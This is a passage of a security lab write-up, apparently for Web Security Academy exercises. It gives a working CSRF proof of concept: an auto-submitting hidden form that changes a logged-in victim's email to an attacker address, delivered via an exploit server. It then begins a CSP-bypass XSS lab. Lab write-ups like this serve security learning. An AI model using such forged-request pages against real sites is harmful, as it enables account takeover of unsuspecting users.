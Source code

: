 Because we have a incorrect session cookie, we need the session cookie of that user.

Burpsuite professional can create a CSRF PoC engagement tools > Generate CSRF PoC.

What is this? Burpsuite generate a structure very useful for us malicious page that generate a form that send hidden values via POST and as the user is authenticated change his own mail.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aef00830312e3e5807f7b7b002a00ef.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;hacker&#46;com" />
      <input type="hidden" name="csrf" value="meQAHuleS9qqv98lgh2ybmKtLaNigsXR" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Remember to change the email, use this code in the exploit server(store > delivery exploit to victim):

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aef00830312e3e5807f7b7b002a00ef.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="`hacker@evil-user.net`" />
      <input type="hidden" name="csrf" value="meQAHuleS9qqv98lgh2ybmKtLaNigsXR" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Reflected XSS protected by CSP, with CSP bypass

We can inject html but when try to inject an alert doesn't work, we check the console and obtain the error of **script-src: self**. This work if in CSP exist **unsafe-inline** but is not the case.


If we inspect the content-security-policy in the request see something strange.
```
default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```
